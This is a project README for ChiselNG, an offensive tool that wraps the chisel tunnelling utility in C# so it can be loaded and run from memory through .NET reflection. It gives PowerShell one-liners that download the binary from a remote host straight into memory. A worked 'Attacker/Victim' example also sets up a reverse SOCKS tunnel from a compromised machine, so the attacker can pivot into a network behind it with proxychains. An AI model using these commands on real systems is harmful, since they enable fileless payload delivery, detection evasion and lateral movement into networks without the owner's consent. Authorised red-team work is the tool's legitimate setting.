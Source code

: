 This project is essentially a C# wrapper for [chisel](https://github.com/jpillora/chisel), with the primary purpose being to enable usage from memory via .NET reflection.

![image](https://github.com/user-attachments/assets/fb95ae6e-32d7-4b79-90af-df3d48d8c7bb)

---

## Usage

> [!NOTE]
> Realistically, the purpose of this tool is to be ran in memory and functionally works the same as the standard `chisel` Windows binary -- 
> meaning if you're going to execute this tool from disk, you might as well use the original.
>
> This README only covers the reflection component of `ChiselNG`. For general `chisel` usage, I recommend checking out the original work.  


```powershell
# Execute a Command
./ChiselNG.exe <command>

# Return Help Information
./ChiselNG.exe --help
```

Prior to in-memory execution, first load `ChiselNG.exe` into memory via .NET Reflection.
```powershell
# Load Binary into Memory Locally
[System.Reflection.Assembly]::LoadFile("$PWD/ChiselNG.exe")

# Load Binary into Memory Remotely
$WebClient = [System.Net.WebClient]::new()
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/ChiselNG.exe")
[System.Reflection.Assembly]::Load($DownloadData)

# Load Binary into Memory Remotely (one-liner)
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData('http(s)://<ip_addr>/ChiselNG.exe'))
```
- _Note: running a simple HTTP server is sufficient for hosting (e.g., ``python -m http.server 80``)_

Usage once loaded in memory:
```powershell
# Run Chisel Commands
[ChiselNG]::Main('<command>')
```
![image](https://github.com/user-attachments/assets/1abfc6c1-c765-4c8a-a77e-b0fae434132d)

## Example

For this example showcase, assume the following:

| Component | IP/Port | Notes |
| --- | --- | --- |
| Attacker IP | `10.10.1.5` | Hosting the HTTP and Chisel servers. |
| Victim IP | `10.10.1.10`, `192.168.1.10` | Compromised dual NIC'd machine. |
| Target Network | `192.168.1.0/24` | Network sitting behind the compromised machine. |
| HTTP Server Port | `80` | Used to host `ChiselNG.exe`. | 
| Chisel Server Port | `8080` | Arbitrary port chosen for the server. |
| SOCKS5 Proxy Port | `1080` | Port configurable within `/etc/proxychains.conf` |

```shell
# Attacker: Host 'ChiselNG.exe' via a simple web server to be pulled later
python -m http.server 80

# Attacker: Setup chisel/chiselng server listener on an arbitrary port
./chiselng_amd64 server -p 8080 --reverse
```
```powershell
# Victim: Establish ChiselNG client tunnel callback
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData('http://10.10.1.5/ChiselNG.exe'))
[ChiselNG]::Main('client 10.10.1.5:8080 R:socks')
```
```shell
# Attacker: Tunnel commands through the SOCKS5 proxy to hit the target network
proxychains -q <command>
```

**Visual Diagram:**
```mermaid
flowchart LR

%% Establish Hosts
A{**Attacker**<br>10.10.1.5}
B{**Victim**<br>10.10.1.10<br>192.168.1.10}
C>**Internal Client 1**<br>192.168.1.11]
D>**Internal Client 2**<br>192.168.1.12]
E>**Internal Client 3**<br>192.168.1.13]

%% Establish Connections
B --> | **Step 1:**<br> *GET ChiselNG.exe*  | A
B --> | **Step 2:**<br> *Chisel --> 8080* | A
A -.-> | **Step 3:**<br> *Proxychains --> 1080* | B

%% Establish Internal Network
B -.-> C
B -.-> D
B -.-> E
```

## Building/Compiling
**The TL;DR for the C# wrapper process is this:**
1. Clone the latest `chisel` repository.
2. Implement CGO to allow for a C-based DLL entrypoint.
3. Compile as a Windows DLL.
4. Using `Costura.Fody`, embed the DLL into a simple C# project that just references the entrypoint in the DLL.
5. Compile and profit.

**To simply copy this repo and build from source....**
1. Run `go/helpers/compile_chisel.sh` to create 32-bit and 64-bit `chisel` DLL's in the `go/helpers/bin` directory.
2. Copy said DLL's to `chiselng/costura-win-<arch>` -- renaming them both to to `main.dll`.
3. Open up `ChiselNG.sln` in Visual Studio and build (`F6`). 

_(Note: see the lazy [INSTRUCTIONS.txt](/go/helpers/INSTRUCTIONS.txt) note in the `go/helpers` directory for other details)._

## Credits

- Of course, this project couldn't have been made without [@jpillora](https://github.com/jpillora)'s incredible work on the original **[chisel](https://github.com/jpillora/chisel)** project.
- Huge shoutout to [@shantanu](shantanu561993) for his **[SharpChisel](https://github.com/shantanu561993/SharpChisel)** project.  This project was inspired by his work.

---

## License <a name="license"></a>

- [MIT License](/LICENSE)
